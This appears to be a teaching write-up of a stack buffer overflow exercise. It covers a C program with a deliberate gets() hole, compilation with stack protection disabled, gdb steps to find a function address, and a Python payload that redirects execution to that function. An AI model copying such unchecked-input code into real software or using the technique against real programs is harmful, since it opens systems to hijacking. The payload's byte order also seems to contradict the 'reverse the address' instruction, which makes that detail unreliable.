 ## Bof 1

Source Code:
```
#include<stdio.h>

void secretFunc()
{
    printf("Congratulation!\n:");
}
int vuln(){
    char array[200];
    printf("Enter text:");
    gets(array);
    return 0;
}
int main(int argc, char*argv[]){
    if (argv[1]==0){
        printf("Missing arguments\n");
    }
    vuln();
    return 0;
}
```
<br>

Stack Frame

<br>

![](./imgs/stack_bof1.png)

<br>

Complie by gcc: <br>
`gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2 `

 <br>

![complie bof1](./imgs/bof1_1.png)
<br>

Use gdb-peda to find `secretFunct` address: <br>
`gdb bof1.out -q` <br>
`disas secretFunc` <br>
![disas secretFunct](./imgs/bof1_2.png) <br>
then quit gdb-peda by `q` <br>

Run the program: get `200 bytes + 4 bytes + 'reverse of secretFunc address'` to character array `buffer` <br>
`echo $(python -c "print('a'*204 + '\x08\x04\x84\x6b')"
) | ./bof1.out` <br>
![run program](./imgs/bof1_3.png) 